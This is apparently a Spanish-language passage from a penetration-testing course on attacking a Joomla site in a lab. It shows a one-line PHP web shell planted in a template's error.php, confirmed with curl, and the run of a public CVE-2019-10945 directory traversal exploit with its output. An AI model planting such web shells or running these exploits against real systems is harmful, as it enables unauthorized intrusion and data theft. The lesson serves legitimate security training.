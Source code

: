 Ahora sabemos que estamos lidiando con un sitio de Joomla e-commerce. Si logramos obtener acceso, podríamos infiltrarnos en el entorno interno del cliente y comenzar a enumerar el entorno de dominio interno. Al igual que WordPress y Drupal, Joomla ha tenido su buena cantidad de vulnerabilidades tanto en la aplicación principal como en extensiones vulnerables. Además, al igual que los otros, es posible obtener ejecución remota de código (RCE) si podemos iniciar sesión en el backend de administración.

---

## Abusing Built-In Functionality

Durante la fase de enumeración de Joomla y la investigación general en busca de datos de la empresa, podríamos encontrar credenciales filtradas que podemos usar para nuestros propósitos. Usando las credenciales que obtuvimos en los ejemplos de la última sección, `admin:admin`, iniciemos sesión en el backend objetivo en `http://dev.inlanefreight.local/administrator`. Una vez dentro, veremos muchas opciones disponibles. Para nuestros propósitos, nos gustaría agregar un fragmento de código PHP para obtener RCE. Podemos hacer esto personalizando una plantilla.

`http://dev.inlanefreight.local/administrator/index.php`

![joomla_admin](https://academy.hackthebox.com/storage/modules/113/joomla_admin.png)

Desde aquí, podemos hacer clic en `Templates` en la parte inferior izquierda, bajo `Configuration`, para abrir el menú de plantillas.

`http://dev.inlanefreight.local/administrator/index.php?option=com_templates`

![joomla_templates](https://academy.hackthebox.com/storage/modules/113/joomla_templates.png)

Luego, podemos hacer clic en un nombre de plantilla. Vamos a elegir `protostar` bajo la columna `Template`. Esto nos llevará a la página `Templates: Customise`.

`http://dev.inlanefreight.local/administrator/index.php?option=com_templates&view=template&id=506`

![joomla_customise](https://academy.hackthebox.com/storage/modules/113/joomla_customise.png)

Finalmente, podemos hacer clic en una página para abrir el código fuente de la página. Es una buena idea acostumbrarse a usar nombres de archivos y parámetros no estándar para nuestras web shells, para que no sean fácilmente accesibles para un atacante durante la evaluación. También podemos proteger con contraseña y limitar el acceso a nuestra dirección IP de origen. Además, siempre debemos recordar limpiar las web shells tan pronto como hayamos terminado con ellas, pero aún así incluir el nombre del archivo, el hash del archivo y la ubicación en nuestro informe final al cliente.

Vamos a elegir la página `error.php`. Agregaremos una línea de código PHP para obtener ejecución de código de la siguiente manera:

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

`http://dev.inlanefreight.local/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D`

![joomla_edited](https://academy.hackthebox.com/storage/modules/113/joomla_edited.png)

Una vez hecho esto, haz clic en `Save & Close` en la parte superior y confirma la ejecución de código usando `cURL`.

```sh
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Desde aquí, podemos actualizar a una shell inversa interactiva y comenzar a buscar vectores de escalada de privilegios locales o centrarnos en el movimiento lateral dentro de la red corporativa. Debemos asegurarnos, una vez más, de anotar este cambio para los anexos de nuestro informe y hacer todo lo posible para eliminar el fragmento de PHP de la página `error.php`.

---

## Leveraging Known Vulnerabilities

En el momento de escribir esto, ha habido [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) vulnerabilidades relacionadas con Joomla que recibieron CVEs. Sin embargo, solo porque se haya divulgado una vulnerabilidad y haya recibido un CVE no significa que sea explotable o que haya un exploit público funcional disponible. Al igual que con WordPress, las vulnerabilidades críticas (como las de ejecución remota de código) que afectan el núcleo de Joomla son raras. Al buscar en un sitio como `exploit-db`, encontramos más de 1,400 entradas para Joomla, siendo la gran mayoría para extensiones de Joomla.

Vamos a profundizar en una vulnerabilidad del núcleo de Joomla que afecta la versión `3.9.4`, que se encontró que nuestra objetivo `http://dev.inlanefreight.local/` estaba ejecutando durante nuestra enumeración. Al revisar la página de [descargas](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) de Joomla, podemos ver que `3.9.4` fue lanzado en marzo de 2019. Aunque está desactualizado ya que estamos en Joomla `4.0.3` a partir de septiembre de 2021, es completamente posible encontrarse con esta versión durante una evaluación, especialmente contra una gran empresa que puede no mantener un inventario de aplicaciones adecuado y no está al tanto de su existencia.

Investigando un poco, encontramos que esta versión de Joomla probablemente es vulnerable a [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945), que es una vulnerabilidad de recorrido de directorios y eliminación de archivos autenticada. Podemos usar [este](https://www.exploit-db.com/exploits/46710) script de exploit para aprovechar la vulnerabilidad y listar el contenido del directorio webroot y otros directorios. La versión en python3 de este mismo script se puede encontrar [aquí](https://github.com/dpgg101/CVE-2019-10945). También podemos usarlo para eliminar archivos (no recomendado). Esto podría llevar al acceso a archivos sensibles como un archivo de configuración o un script que contenga credenciales si luego podemos acceder a él a través de la URL de la aplicación. Un atacante también podría causar daño eliminando archivos necesarios si el usuario del servidor web tiene los permisos adecuados.

Podemos ejecutar el script especificando las flags `--url`, `--username`, `--password` y `--dir`. Como pentesters, esto solo nos sería útil si el portal de inicio de sesión del administrador no es accesible desde el exterior, ya que, armados con credenciales de administrador, podemos obtener ejecución remota de código, como vimos anteriormente.

```sh
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal & Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

---

## Moving On

Next, let's take a look at Drupal, which, while it holds a much smaller share of the CMS market, is still used by companies worldwide.